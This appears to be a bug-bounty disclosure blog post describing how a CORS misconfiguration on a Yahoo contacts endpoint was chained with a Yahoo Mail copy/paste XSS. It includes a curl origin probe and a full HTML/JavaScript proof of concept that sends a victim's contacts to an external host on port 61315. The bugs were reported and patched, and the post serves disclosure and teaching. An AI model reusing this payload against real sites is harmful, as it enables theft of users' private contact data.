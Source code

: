 ```yaml
---
layout: post
title: "Chaining Bugs to Steal Yahoo Contacts!"
author: Corben Leo
---
```

### &#x1F468;&#x1F3FB;&#x200D;&#x1F4BB;&nbsp;Introduction & Background:
This is a write-up of how I chained two vulnerabilities (an XSS and a CORS misconfiguration) that allowed me to steal contacts from a victim's contact book. This data included: names, phone numbers, addresses, etc. 

#### <font color="#129AC8">&#x2717;</font> Cross-Origin-Resource Sharing
> Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use.

Browsers enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy" rel="noopener noreferrer" target="_blank"><font id="highlighter">Same-Origin Policy</font></a>, meaning that data on a site is only accessible from the same domain and port, unless there is a CORS configuration. This allows data to be shared with other sites.

#### <font color="#129AC8">&#x2717;</font> Cross-Site Scripting:
XSS is a client-side code injection attack that allows an attacker to insert scripts (such as javascript) into a vulnerable application. If you don't know what it is, you should. 
<br><br>

### &#x1F4A3; The Bugs:
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #1: A CORS Misconfiguration in http://proddata.xobni.yahoo.com
I was browsing through various requests made to *.yahoo.com subdomains logged in the "<font id="highlighter2">Target</font>" tab of Burp Suite. I came across the subdomain proddata.xobni.yahoo.com and was intrigued by the name. There were only a few requests logged, but all to the same endpoint: `https://proddata.xobni.yahoo.com/v4/contacts`. This endpoint contains **every** contact you have in your Contact Book via a single `GET` request. I noticed the origin `https://mail.yahoo.com` was being reflected back in the `Access-Control-Allow-Origin` with `Access-Control-Allow-Credentials: true` header. I tried modifying the origin to many different payloads that I thought may work and be reflected, however none were reflected back. I then tried to send a different Yahoo! subdomain as the origin, rather than the `mail.yahoo.com` one. 
```
curl 'https://proddata.xobni.yahoo.com/v4/contacts' -s -H 'Origin: https://hackerone-cdl.yahoo.com' --head
```
Response:
```
Access-Control-Allow-Origin: https://hackerone-cdl.yahoo.com
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true

```
It accepted any *.yahoo.com subdomain in the origin and reflected it back in the ACAO with `Allow-Credentials: true`. This meant if I could find an XSS on *.yahoo.com, I could leverage it to steal contacts.  
<br>
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #2: An XSS in Yahoo! Mail
A few days passed and I still hadn't found an XSS. Then I saw a tweet from Enguerran Gillier (<a href="https://twitter.com/opnsec" _target="blank" rel="noopener noreferrer">@opnsec</a>) regarding a wontfix Copy+Paste XSS he had found in Yahoo Mail. I quickly wget'd that POC from his server and edited it to fit my needs. (Turns out after reporting the chained bugs, the XSS <font id="highlighter">wasn't</font> marked as a wontfix and there was some miscommunication, so lucky me!). It required more user-interaction than I had wanted, but I didn't care, I just wanted to chain them and report them as soon as possible. 

### &#x1F4B0; The Grand Finale
This was my proof-of-concept, that required a logged in user to copy any text from this page and paste it into Yahoo Mail. 
```html
<!doctype html>
  <head>
    <title>Yahoo CORS Misconfiguration</title>
  </head>
  <body>
    <h1>Yahoo CORS Misconfiguration</h1>
    <p>Stealing Contact information via CORS Misconfiguration + Yahoo Mail XSS via Copy/Paste</p>
    <h3>Prerequisites :</h3>
    - Tested on Windows 10 with Firefox 56, Chrome 62, Edge<br/>
    <h3>Instructions :</h3>
    1. Select any text in this page and copy it using ctrl-C or right click -> copy <br/>
    <span>Copy status : </span><span id="copied">not copied yet</span> <br/>
    2. Go to Yahoo Mail, compose a new email and paste inside the email body<br/>
    3. All of your contact's information will be sent to my server on port 61315  
  <script>
  document.addEventListener('copy', function(e){
  	e.clipboardData.setData('text/plain', '');
  	e.clipboardData.setData('text/html','<div id="enhancr2_a" class="yahoo-link-enhancr-card">xxx</div><img src="x" onerror="document.write(\'&lt;script&gt;var xhttp=new XMLHttpRequest();xhttp.onreadystatechange = function() {if (this.readyState == 4 && this.status == 200) {document.location=&#x22;http://example.com:61315&#x22;+escape(this.responseText);}};xhttp.open(&#x22;GET&#x22;,&#x22;https://proddata.xobni.yahoo.com/v4/contacts&#x22;,true);xhttp.withCredentials = true;xhttp.send();&lt;/script&gt;\');">');
  	e.preventDefault();
  	document.getElementById("copied").textContent = "SUCCESSFULLY COPIED"
  });
  </script>
```
<br>
Proof-of-Concept Video:<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/lK23tBEVKxU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (11/8/2017) Reported to Yahoo! via HackerOne
- (11/9/2017) Confirmed & awarded $150 on Triage
- (11/15/2017) Vulnerability Patched
- (12/10/2017) Awarded a $1,850 bounty (making the entire bounty $2,000)
<br><br>This was a fun report for me and I hoped you enjoyed it as well!<br>Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/sxcurity"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>
